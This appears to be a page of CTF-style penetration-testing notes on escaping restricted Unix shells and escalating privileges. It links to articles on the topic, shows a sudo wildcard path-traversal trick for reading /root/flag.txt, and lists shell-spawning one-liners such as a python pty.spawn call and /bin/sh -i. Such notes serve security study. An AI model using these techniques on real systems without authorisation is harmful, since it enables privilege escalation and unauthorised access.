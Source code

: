 #### shellcatraz

https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells

#### escaping restricted shells

http://securebean.blogspot.ca/2014/05/escaping-restricted-shell_3.html

#### attacking restricted shells

https://blog.netspi.com/attacking-restricted-linux-shells/


### Useful commands

### Switch user to root

```
su root
```

### check user access to sudo

```
sudo -l
```
look for issues in the error codes for example

```
User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
The flaw in the above configuration is that /account/ is appended with a *. We can exploit this to read /root/flag.txt by traversing the directories.

```
sudo cat /accounts/../root/flag.txt
```

### check user access to sudoedit

sudoedit /etc/exports


####  Spawning shell
python -c 'import pty; pty.spawn("/bin/sh")'

### you break out of the "jail" shell?

python -c 'import pty;pty.spawn("/bin/bash")'

echo os.system('/bin/bash')

/bin/sh -i

/bin/sh

exec /bin/bash
